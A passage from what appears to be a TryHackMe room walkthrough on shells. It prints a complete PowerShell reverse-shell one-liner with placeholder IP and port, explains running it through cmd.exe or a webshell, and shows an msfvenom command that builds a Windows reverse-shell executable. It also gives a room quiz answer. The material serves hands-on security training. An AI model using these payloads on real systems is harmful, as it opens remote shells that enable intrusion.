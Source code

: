 powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
In order to use this, we need to replace ```"<IP>"``` and ```"<port>"``` with an appropriate IP and choice of port. It can then be copied into a ```cmd.exe shell``` (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

![img](/assets/img/wts11.png)

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.

---

1. What command can be used to create a named pipe in Linux?
Answer : mkfifo

---

Task 9  msfvenom
---
```Msfvenom```: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to ```generate code for primarily reverse and bind shells```. It is used extensively in lower-level exploit development to ```generate hexadecimal shellcode``` when developing something like a ```Buffer Overflow exploit```; however, it can also be used to generate payloads in various formats (e.g. ```.exe, .aspx, .war, .py```). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

The standard syntax for msfvenom is as follows:
```
msfvenom -p <PAYLOAD> <OPTIONS>
```
For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

![img](/assets/img/wts12.png)

Here we are using a payload and four options:
- ```-f``` <format>
Specifies the output format. In this case that is an executable (exe)

- ```-o``` <file>
The output location and filename for the generated payload.

- ```LHOST=```<IP>
   - Specifies the IP to connect back to. When using TryHackMe, this will be your [tun0 IP address](http://10.10.10.10/). If you cannot load the link then you are not [connected to the VPN](https://tryhackme.com/room/welcome).

- ```LPORT=```<port>
   - The port on the local machine to connect back to. This can be anything between ```0 and 65535``` that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.
```